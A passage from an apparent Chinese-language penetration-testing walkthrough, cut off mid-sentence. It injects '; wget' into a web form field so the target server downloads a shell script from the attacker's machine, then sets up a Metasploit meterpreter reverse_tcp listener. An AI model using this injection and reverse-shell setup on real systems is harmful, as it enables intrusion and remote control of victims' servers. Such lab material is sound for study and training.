 之后，我们在地址:`[http://10.0.2.15:8000](http://10.0.2.15:8000.)` [有一个运行的服务器绑定。](http://10.0.2.15:8000.)

让我们跳到浏览器上，通过在输入字段中键入以下内容，让目标服务器下载我们的有效负载:

```
; wget [http://10.0.2.15:8000/shell-x86.py](http://10.0.2.15:8000/shell-x86.py)
```

如图所示:

![](img/db33968339dacb0494b100cbff73df01.png)

现在负载应该在受害者服务器上，下一步是在攻击者机器上打开一个监听器:

首先，让我们在安静模式下运行 Metasploit:

```
msfconsole -q
```

其次，我们需要设置处理程序及其参数，我将在一个块中列出所有命令:

```
use exploit/multi/handler 
set PAYLOAD python/meterpreter/reverse_tcp 
set LHOST 10.0.2.15 
set LPORT 4567 run
```

正如我们在下图中看到的，监听器是活动的:
